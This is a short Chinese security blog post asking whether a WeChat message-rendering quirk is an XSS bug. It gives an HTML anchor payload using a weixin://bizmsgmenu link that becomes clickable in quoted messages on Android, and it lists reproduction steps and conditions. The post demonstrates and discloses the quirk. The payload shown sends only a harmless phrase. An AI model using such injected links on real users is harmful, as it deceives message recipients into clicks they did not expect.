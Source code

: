 #  这是微信XSS漏洞吗？  
原创 安全攻防屋  安全攻防屋   2025-07-13 11:44  
  
1、效果：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b6UzoibqnYFHBq4ZqQRXrMagAzKRBcxzSDdpzYogQicHgqk7NxynJDCAAicCNibmyUklNzXcaj6rhOHPnUKeGYh7OA/640?wx_fmt=png&from=appmsg "")  
  
  
2、payload如下：  
  
<a  
  
href="weixin://bizmsgmenu  
  
?msgmenucontent=诶呀妈呀  
  
&msgmenuid=960">你点一下试试看</a>  
  
3、复现过程：  
  
找一个微信联系人，引用其说的话，并复制代码，发送  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b6UzoibqnYFHBq4ZqQRXrMagAzKRBcxzSo1KyvQMk1iaoIMnTcKFVN6XoiavjibZlO5A37BMwS0BLvoCrxOthYCmfw/640?wx_fmt=png&from=appmsg "")  
  
效果  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b6UzoibqnYFHBq4ZqQRXrMagAzKRBcxzS6DDQAq6EhOtzyMicjSx78VvKUV9uzLuQeiakMTuPico11kxsEMHKibYia5g/640?wx_fmt=png&from=appmsg "")  
  
4、注意，有条件限制  
  
（1）好友需使用安卓手机点击，苹果系统目前测试不支持；  
  
（2）微信需更新为最新；  
  
（3）一定要引用对方的信息，否则只有对方看到的是源代码内容；  
  
（3）使用电脑打开查看也是看到源代码内容。  
  
  
  
  
